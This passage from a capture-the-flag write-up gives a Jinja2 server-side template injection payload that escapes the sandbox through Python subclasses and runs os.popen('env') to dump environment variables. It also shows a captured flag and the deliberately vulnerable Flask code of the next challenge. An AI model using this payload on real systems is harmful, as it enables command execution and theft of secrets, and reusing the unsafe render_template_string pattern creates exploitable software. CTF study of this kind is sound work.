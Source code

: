 ```
http://127.0.0.1:1378/?username={% set du='_'~'_' %}{% set gi=du~'getitem'~du %}{% set bk=du~'builtins'~du %}{% set ik=du~'import'~du %}{% set nk=du~'name'~du %}{% set sc=''|attr(du~'class'~du)|attr(du~'mro'~du)|attr(gi)(-1)|attr(du~'subclasses'~du)() %}{% for c in sc %}{% if c|attr(nk)=='catch_warnings' %}{% set w=c() %}{% set m=w|attr('_module') %}{% set md=m|attr(du~'dict'~du) %}{% set b=md|attr(gi)(bk) %}{% set imp=b|attr(gi)(ik) %}{% set os=imp('os') %}{% set envs=os|attr('popen')('env')|attr('read')() %}<pre>{% print(envs) %}</pre>{% endif %}{% endfor %}&password=1
```

```
moectf{b603bff7-2595-9703-5449-640a7b6fea44}
```

## 22 第二十二章 血海核心·千年手段

> 漩涡深处竟是别有洞天。一座由白骨堆砌的宫殿矗立在血海核心，殿门笼罩着血色光幕，上面流转着比言灵死局更复杂的符文。

```python
from flask import Flask, request, render_template, render_template_string

app = Flask(__name__)

@app.route('/')
def index():
    if 'username' in request.args or 'password' in request.args:
        username = request.args.get('username', '')
        password = request.args.get('password', '')

        if not username or not password:
            login_msg = """
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-fail'>用户名或密码不能为空</div></div>
            </div>
            """
        else:
            login_msg = f"""
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-success'>Welcome: {username}</div></div>
            </div>
            """
            render_template_string(login_msg)
    else:
        login_msg = ""

    return render_template("index.html", login_msg=login_msg)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

[jinjia2无回显SSTI - colorfullbz - 博客园](https://www.cnblogs.com/shinnylbz/p/18572680)
